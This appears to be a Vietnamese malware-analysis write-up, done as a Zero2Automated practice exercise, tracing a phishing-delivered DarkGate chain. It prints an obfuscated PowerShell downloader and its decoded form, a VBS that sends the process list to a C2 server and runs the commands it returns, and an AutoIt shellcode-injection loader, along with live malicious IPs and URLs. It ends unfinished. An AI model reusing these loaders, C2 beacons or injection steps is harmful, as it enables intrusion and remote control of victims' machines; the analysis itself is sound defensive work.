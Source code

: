 ### Luyện tập 1 - my_ant_ti3m

Luyện tập cho Zero2Automated

Link phishing: https://lingiangcosmetic.com/quotation

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20112942.png)

View page source ta có thể thấy đường dẫn file ChungLG.js "đáng ngờ". Sau đó thông qua `search-ms` đẫn người dùng truy cập đến địa chỉ `194.87.31.108:8080` để thực hiện tải file độc hại

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20113008.png)


![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20112838.png)

Người dùng bị lừa tải file shortcut(.lnk) và thực thi powershell script độc hại bị nhúng trong file `.lnk`

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20113532.png)


```
$path = $env:TEMP + '\ldOGUevTtt.pdf';$secondPath=$env:TEMP+'\HYFmFrcWvQ.vbs';$pHqgh='';$pHqgh+='Invoke-WebRe';$WJNzC=690;$pHqgh+='quest -Uri "';$pHqgh+='http://89.23';$pHqgh+='.100.222:80/';$pHqgh+='foo/neverban';$TjHvT=9796;$pHqgh+='_SUCBAm.vbs"';$pHqgh+=' -OutFile $s';$pHqgh+='econdPath;St';$pHqgh+='art-Process ';$TzMnd= $WJNzC+ $WJNzC;$pHqgh+='-FilePath $s';$pHqgh+='econdPath;In';$pHqgh+='voke-WebRequ';$pHqgh+='est -Uri "ht';$RZjYx=167;$pHqgh+='tps://files.';$pHqgh+='catbox.moe/b';$pHqgh+='8bf3x.pdf" -';$pHqgh+='OutFile $pat';$yJYYz=9737;$pHqgh+='h;Start-Proc';$pHqgh+='ess -FilePat';$pHqgh+='h $path;';.([char](21*5) + [char](51+50) + [char](20*6)) $pHqgh;

```
Thực hiện deobfuscation đoạn powershell script thu được:
``` 
Invoke-WebRequest -Uri "http://89.23.100.222:80/foo/neverban_SUCBAm.vbs" -OutFile $secondPath;
Start-Process -FilePath $secondPath;
Invoke-WebRequest -Uri "https://files.catbox.moe/b8bf3x.pdf" -OutFile $path;
Start-Process -FilePath $path;
```
Khi đoạn powershell được thực thi file visual basic script đáng ngờ `SUCBAm.vbs` lưu tại `$path = $env:TEMP`

Nội dung file vbs
```
wecabepzyf = "cmd"
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
dim all_process

Set colProcesses = objWMIService.ExecQuery("Select * from Win32_Process")
For Each objProcess in colProcesses
  all_process = all_process & objProcess.Name
Next



qezogvuos = "Shell.Application"



vhfvmeyvgucbd="http://vntricker.abcxzy.com:2351/nlhsapgv"
vwmlbmy="WINHTTP.WinHTTPRequest.5.1"



With CreateObject(vwmlbmy)
.Open "post", vhfvmeyvgucbd, False
.setRequestHeader "a", all_process
.send
vwmlbmy2 = .responseText
CreateObject(qezogvuos).ShellExecute wecabepzyf, vwmlbmy2 ,"","",0
End With

wscript.quit
MsgBox "ss"'slush devote minimum step between field play taxi bitter gallery nuclear stuff average elite lens reveal vague country illness pause vast claw girl omit sport april drip kiwi receive toilet category fox orient state artist earn laugh pumpkin target bike edit leader put tragic butter fiscal marble subject aware debris judge potato three bonus face mean search when crater glance napkin slam address desert hint piano switch broken feel minimum rule voice color fuel owner soft allow disagree jacket quantum term amateur dawn hybrid park such awkward domain illness pattern spice antenna deliver health pen spoon actress deposit hen opinion slide wink cross labor region tooth cry hope sad universe change fury model salt want consider guess panic subject ability debate gauge obvious special abuse defense hat peace size apart crash glance member seed twenty describe glove orbit slot wisdom clutch frequent mind shallow wool collect fiction magnet sail unusual bird egg ivory quality trap cabbage elephant length rabbit there camp extend library rally thumb answer delay ginger mutual second verb carry force opera sell wing catalog favorite lounge stand agent dial hood nice soap assume economy iron pledge stove alpha damp guess moon sibling abandon choice letter post sugar absurd course floor maze right velvet bottom engine kingdom ready vessel brave entire lonely
```
Chức năng của file `SUCBAm.vbs` gửi tất cả tiến trình đang chạy trên máy nạn nhân(mục đích có thể là kiểm tra máy nạn nhân có đang cài av hoặc file vbs đang chay trong môi trường ảo hóa hay không?) tới `http://vntricker.abcxzy.com:2351/nlhsapgv`. Sau đó sẽ nhận lại được cmd command từ phía C&C server và thực thi nó `vwmlbmy2 =.responseText;CreateObject(qezogvuos).ShellExecute wecabepzyf, vwmlbmy2 ,"","",0`

malicous command được nhận lại từ CnC Server:

![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20132318.png)


Lệnh hình trên với chức năng tải tệp thực thi Autoit.exe và tệp autoit script(.au3) độc hại và thực thi nó. 

Nội dụng file autoscript độc hại sau khi trích xuất:

```
LOCAL $XHKOUYMY
#NoTrayIcon
LOCAL $NZCLH
FUNC DECRYPTFILEWITHKEY($SFILEPATH,$SKEY)
LOCAL $XMDO
LOCAL $HFILE=FILEOPEN($SFILEPATH,16)
LOCAL $PSQCQA
LOCAL $JQVUEN
IF $HFILE=-1 THEN
LOCAL $EFSPOJC
MSGBOX(0,"Error","unable to open.")
LOCAL $KKJLNGV
RETURN SETERROR(1,0,"")
LOCAL $CQXZHMJC
ENDIF
LOCAL $YFUUQ
LOCAL $OVPF
LOCAL $BCONTENT=FILEREAD($HFILE)
LOCAL $EKLPP
FILECLOSE($HFILE)
LOCAL $WRYE
LOCAL $LPCLOBTK
LOCAL $SCONTENT=BINARYTOSTRING($BCONTENT)
LOCAL $IVRK
LOCAL $ISTART=STRINGINSTR($SCONTENT,"padoru")+6
LOCAL $YKMURDFMW
LOCAL $IEND=STRINGINSTR($SCONTENT,"padoru",0,-1,$ISTART)
LOCAL $WITXQN
LOCAL $QFYPF
IF $ISTART=6 OR $IEND=0 THEN
LOCAL $KDDH
MSGBOX(0,"Error","delimiter not found.")
LOCAL $ASYSTN
RETURN SETERROR(2,0,"")
LOCAL $SZMGNTKTG
ENDIF
LOCAL $PFAFRWZQ
LOCAL $KUXBBS
LOCAL $STODECRYPT=STRINGMID($SCONTENT,$ISTART,$IEND-$ISTART)
LOCAL $ESCTQGDEL
LOCAL $BTODECRYPT=STRINGTOBINARY($STODECRYPT)
LOCAL $CPJVPQ
LOCAL $IBLOCKSIZE=32768
LOCAL $WMONEERN
LOCAL $ILEN=BINARYLEN($BTODECRYPT)
LOCAL $XSEX
LOCAL $MQIEXVNMC
LOCAL $TBYTE=DLLSTRUCTCREATE("byte[1]")
LOCAL $JWWEB
LOCAL $IKEYALT=0,$B_DECRYPTED=BINARY("")
LOCAL $BDKSVERZU
LOCAL $IKEYLEN=STRINGLEN($SKEY)
LOCAL $ZAQVUPZ
LOCAL $RGDJOVN
FOR $I=1 TO $IKEYLEN
LOCAL $LEJBDITZV
$IKEYALT=BITXOR(BINARYMID($SKEY,$I,1),$IKEYALT)
LOCAL $IKXAHLJ
NEXT
LOCAL $BICSWZ
LOCAL $SXYDVYLD
FOR $I=1 TO $ILEN STEP $IBLOCKSIZE
LOCAL $ODNCABBAE
LOCAL $IBLOCKLEN=$IBLOCKSIZE
LOCAL $KSJXJW
IF $I+$IBLOCKLEN>$ILEN THEN $IBLOCKLEN=$ILEN-$I+1
LOCAL $CZXLDCNDT
LOCAL $BBLOCK=BINARYMID($BTODECRYPT,$I,$IBLOCKLEN)
LOCAL $AWDO
LOCAL $BDECRYPTEDBLOCK=BINARY("")
LOCAL $PUHV
FOR $J=1 TO BINARYLEN($BBLOCK)
LOCAL $FKDGGCW
EXECUTE(BINARYTOSTRING("0x202020202020202020202020446C6C53747275637453657444617461282474427974652C20312C20426974584F522842696E6172794D6964282462426C6F636B2C20246A2C2031292C2024694B6579416C742929"))
LOCAL $ZHIYV
$BDECRYPTEDBLOCK&=DLLSTRUCTGETDATA($TBYTE,1)
LOCAL $PXDIU
NEXT
LOCAL $FMZTUNVX
$B_DECRYPTED&=$BDECRYPTEDBLOCK
LOCAL $ZKELJB
NEXT
LOCAL $SIJD
LOCAL $FPVGHYUJF
RETURN $B_DECRYPTED
LOCAL $CVKFMB
ENDFUNC
LOCAL $TKFQLZGM
LOCAL $MILIAN
LOCAL $EOYWU
LOCAL $SKEY="darkgate"
LOCAL $UETGTR
LOCAL $SDECRYPTEDCONTENT=DECRYPTFILEWITHKEY(@SCRIPTFULLPATH,$SKEY)
LOCAL $MKHVNXLZM
LOCAL $IZEQ
LOCAL $YPZBWR
$OVSJZRCCSX=$SDECRYPTEDCONTENT
LOCAL $OEVLVQC
$IUFKJUJZVJ=DLLSTRUCTCREATE("byte["&BINARYLEN($OVSJZRCCSX)&"]")
LOCAL $ICADKEIYH
LOCAL $OLDPROTECT
LOCAL $DRXZUZG
LOCAL $XOCRJ
IF (NOT FILEEXISTS("C:\Program Files (x86)\Sophos"))THEN
LOCAL $LNGYN
EXECUTE(BINARYTOSTRING("0x446C6C43616C6C28226B65726E656C33322E646C6C222C2022424F4F4C222C20225669727475616C50726F74656374222C2022707472222C20446C6C53747275637447657450747228244975464B4A554A5A766A292C2022696E74222C2042696E6172794C656E28246F76736A5A5243435358292C202264776F7264222C20307834302C202264776F72642A222C20246F6C6470726F7465637429"))
;DllCall("kernel32.dll", "BOOL", "VirtualProtect", "ptr", DllStructGetPtr($IuFKJUJZvj), "int", BinaryLen($ovsjZRCCSX), "dword", 0x40, "dword*", $oldprotect)	
LOCAL $HBDT
ENDIF
LOCAL $VAHABQTNH
LOCAL $SGVZGT
EXECUTE(BINARYTOSTRING("0x446C6C5374727563745365744461746128244975464B4A554A5A766A2C20312C20246F76736A5A524343535829"))
;DllStructSetData($IuFKJUJZvj, 1, $ovsjZRCCSX)
LOCAL $NVSVP
EXECUTE(BINARYTOSTRING("0x446C6C43616C6C28227573657233322E646C6C222C20226C726573756C74222C20224322266368722839372926226C6C57696E646F7750726F63222C2022707472222C20446C6C53747275637447657450747228244975464B4A554A5A766A292C202268776E64222C20302C202275696E74222C20302C202277706172616D222C20302C20226C706172616D222C203029"))
;DllCall("user32.dll", "lresult", "C"&chr(97)&"llWindowProc", "ptr", DllStructGetPtr($IuFKJUJZvj), "hwnd", 0, "uint", 0, "wparam", 0, "lparam", 0)
LOCAL $FBFJJUVM
LOCAL $EYMMI
LOCAL $QTZMYCV
```

Đoạn mã trên autoit script trên có giải mã phần dữ liệu đươc đặt dữa 2 kí tự `padoru` và thưc hiện tiêm và thực thi đoạn [shellcode](https://github.com/myantti3m/DG_analysis/blob/main/shell.sc)
Thực hiện phân tích đoạn shellcode với IDA:
![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20133128.png)

Phân tích shellcode thấy chức năng của nó drop và thực thi file PE độc hại
Trích xuất file PE từ shellcode thu được:
![](https://github.com/myantti3m/DG_analysis/blob/main/Screenshot%202023-10-18%20151005.png)

To be continued!!!
